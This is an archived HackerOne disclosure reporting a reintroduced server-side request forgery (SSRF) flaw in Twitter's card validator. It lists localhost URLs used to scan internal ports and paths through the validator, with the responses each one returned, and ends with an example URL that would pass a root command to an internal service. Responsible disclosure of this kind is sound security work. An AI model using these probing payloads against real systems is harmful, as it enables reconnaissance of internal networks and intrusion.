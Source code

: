 # SSRF in https://cards-dev.twitter.com/validator

## Report Details
- **Report ID**: 178184
- **URL**: https://hackerone.com/reports/178184
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-10-26T09:48:57.900Z
- **Disclosed**: 2017-04-06T09:03:52.611Z

## Reporter
- **Username**: mindaugas
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Hello, 

After my previous report (2 years ago)  https://hackerone.com/reports/30860 you fixed the vulnerability, but now it looks like this fix was reverted and the same problem exists again.

Test scenario:
Open https://cards-dev.twitter.com/validator

1. Closed port on localhost
http://0.0.0.0:123 -> ERROR: Fetching the page failed because other errors.

2. Open port but not HTPP
http://0.0.0.0:22 -> ERROR: Failed to fetch page due to: ChannelClosed

3. Open HTPP port
http://0.0.0.0:4680
->
INFO:  Page fetched successfully
INFO:  2 metatags were found
WARN:  Not whitelisted

4. Existing folder
http://0.0.0.0:4680/system/
 ->
INFO:  Page fetched successfully
INFO:  2 metatags were found
WARN:  Not whitelisted

5. None existis folder
http://0.0.0.0:4680/system/
->
http://0.0.0.0:4680/test/
INFO:  Page fetched successfully
WARN:  No metatags found

Disaster scenario:
Find open HTTP service running on local infrastructure with ability to execute commands.

For example:
http://0.0.0.0:4680/system/command.php?command=[ROOT_COMMAND]



## Attachments
- twitter.png
